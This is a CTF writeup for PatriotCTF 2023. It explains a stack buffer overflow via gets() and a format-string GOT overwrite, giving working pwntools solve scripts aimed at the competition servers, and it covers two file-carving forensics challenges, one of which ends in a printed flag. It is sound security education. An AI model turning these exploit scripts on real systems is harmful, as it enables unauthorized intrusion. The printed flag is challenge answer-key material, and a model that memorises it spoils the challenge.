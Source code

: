 ```yaml
---

title: "PatriotCTF 2023 Writeup"
permalink: "/pctf-2023-writeups"
---
```


Welcome to my first Writeup!

# Table of Contents

1. [pwn](#pwn)
   1. [Guessing Game](#guessing-game-100-pts)
   2. [Printshop](#printshop-384-pts)
2. [forensics](#forensics)
   1. [Unsupported Format ](#unsupported-format-100-pts)
   2. [Unsupported Format 2 ](#unsupported-format-2-386-pts)

## PWN
---
<br/>
<!-- <br/> -->


# Guessing Game [100 PTS]
Lets decompile using Ghidra and rename some variables:

![decompilation of binary](/assets/pctf2023/pwn/guessinggame/decompiled.png)

We can see that there is a vulnerable call to `gets` in line 13. We can also see in line 21 that the binary checks if `target` is not zero. If it isn't zero, we get the flag. 
<br/>
<br/>
`gets` will not check how long the user's input is and will store whatever input is given to it, on the [stack](https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64/).  Since the `target` variable is on the stack as well, we can overwrite the variable and get the flag!
<br/>
<br/>
To find the number of characters we need to overwrite the `target` variable, we can look at the stack layout provided by Ghidra. To show this layout just click on any of the variables' declarations.

![stack layout of binary](/assets/pctf2023/pwn/guessinggame/stack_layout.png)
<br/>
<br/>

From this we can see that our input is stored at `$rbp-0x138` and `target` is stored at `$rbp-0xc`.
<br/>
<br/>
Subtracting 0xc from 0x140 gives us 308, which is how many bytes we need to write in order to overwrite the `target` variable. 
<br/>
<br/>

> ``NOTE:`` The `outputFlag()` function tries to open a file called flag.txt, so when testing locally, make sure to put a fake flag in the same directory as the binary.

Here is the final solve script:
<br/>
```python
from pwn import *
context.binary = binary = ELF('./guessinggame')

#p = process()
p = remote('chal.pctf.competitivecyber.club', 9999)
payload = b'a'*308

p.sendline(payload)
p.interactive()
```
---
<br/>

# Printshop [384 PTS]
Again, lets decompile this binary in Ghidra. 

![Printshop binary decompiled](/assets/pctf2023/pwn/printshop/decompiled.png)

<br/>

We can see that there is a format string vulnerability on line 14, since we are taking the user's input and printing it without any format specifiers. This means that the user can supply their own format specifiers like `%n` which can be used to write to memory addresses. 
<br/>

Also notice that instead of returning, the program calls `exit`. I also saw that there is a win function which is what our target is. 
<br/>
![win function](/assets/pctf2023/pwn/printshop/winfunc.png)
<br/>

We can do a GOT overwrite so that `exit` points to `win`. This means that when the program calls `exit`, it will actually call `win`. For more information on format string vulnerabilities, I recommend going through [pwn.college's format string exploits module](https://pwn.college/cse494-s2023/format-string-exploits). 

Before we do the GOT overwrite, we need to make sure that the GOT has write permissions. To check this, we can use `checksec`, a command line utility to check security protections on a binary. Running `checksec printshop` outputs:
<br/>

![checksec output](/assets/pctf2023/pwn/printshop/checksec.png)

Since there is `Partial RELRO`, we can overwrite the GOT.

<br/>
To perform this exploit, we can use pwntools' `fmtstr` class. 
<br/>

Here is the final solve script:
<br/>
```python
from pwn import *
context.binary = binary = ELF('./printshop')

def exec_func(payload): # this function is used so that pwntools can find the offset of our input buffer and other things like padding
        with remote('chal.pctf.competitivecyber.club', 7997) as p:
                p.sendline(payload)
                p.recvuntil(b'buisness!')
                p.recvline()
                p.recvline()
                out = p.recvline()
                log.info(out)
                return out

#p = process()
p = remote('chal.pctf.competitivecyber.club', 7997)
fmtstr = FmtStr(exec_func)
payload = b'a'*fmtstr.padlen + fmtstr_payload(fmtstr.offset, {binary.got.exit: binary.symbols.win})

p.sendline(payload)
p.interactive()

```


## Forensics
---

<br/>
# Unsupported Format [100 PTS]

First I opened the jpg file that was provided and saw that it was corrupted. So I opened it up in a [hex editor](https://hexed.it/) to see the bytes. 

After scrolling through the bytes I saw this:

![corrupted bytes](/assets/pctf2023/forensics/unsupported_format/corrupted_bytes.png)

I deleted the bytes and saved the file. Opening that file gets us the flag:

![flag file](/assets/pctf2023/forensics/unsupported_format/flag.jpg)

---

<br/>
# Unsupported Format 2 [386 PTS]

Like [Unsupported Format 1](#unsupported-format-100-pts), I opened the file in a [hex editor](https://hexed.it/) to see the bytes.

After scrolling through the bytes I saw this: 

![more corrupted bytes](/assets/pctf2023/forensics/unsupported_format_2/corrupted_bytes.png)

I wrote a simple python script to open the file and get rid of the `CORRUPTED` bytes. Here is the script:

``` python
def remove_corrupted_bytes(input_file, output_file):
    with open(input_file, 'rb') as file:
        file_data = file.read()

    corrupted_pattern = b'CORRUPTED'

    cleaned_data = file_data.replace(corrupted_pattern, b'')

    with open(output_file, 'wb') as file:
        file.write(cleaned_data)


input_file = "corrupted.jpg"
output_file = "uncorrupted.jpg"

remove_corrupted_bytes(input_file, output_file)
```

This saves the uncorrupted file into a file called `uncorrupted.jpg`. 

`uncorrupted.jpg` gives us another file that looks like this: 

![uncorrupted version of original file](/assets/pctf2023/forensics/unsupported_format_2/uncorrupted.jpg)

Running `binwalk` on `uncorrupted.jpg` shows this:

![binwalk output on uncorrupted.jpg](/assets/pctf2023/forensics/unsupported_format_2/binwalk.png)

After changing the extracted files to their correct extensions with the `file` command, there was a corrupted tiff file.

![file tiff command](/assets/pctf2023/forensics/unsupported_format_2/file_tiff.png)

Putting the tiff file into a [hex editor](https://hexed.it/) showed the same `CORRUPTED` bytes as the original file. After running my earlier python program to get rid of the `CORRUPTED` bytes, I got a new file.

![more corrupted bytes](/assets/pctf2023/forensics/unsupported_format_2/corrupted_tiff_bytes.png)

Running `binwalk` on the new file shows this:


![2nd binwalk](/assets/pctf2023/forensics/unsupported_format_2/2ndbinwalk.png)

After extracting the files from it using `binwalk -D='.*' uncorrupted.jpg` and using the `file` command, we can see that there is a zip archive.

![zip archive](/assets/pctf2023/forensics/unsupported_format_2/zip_archive_found.png)

Unzipping it, we get a new file called `Monitor.jpg`. I was stuck here for a while because this is what the image shows:

![monitor file](/assets/pctf2023/forensics/unsupported_format_2/Monitor.jpg)

Then I decided to use [aperisolve](https://www.aperisolve.com/).

Going through some of the results, we can find the flag:

![flag](/assets/pctf2023/forensics/unsupported_format_2/flag.png)

**FLAG: PCTF{00ps_1_L1ed_Th3r3_1s_4_Fl4g}**



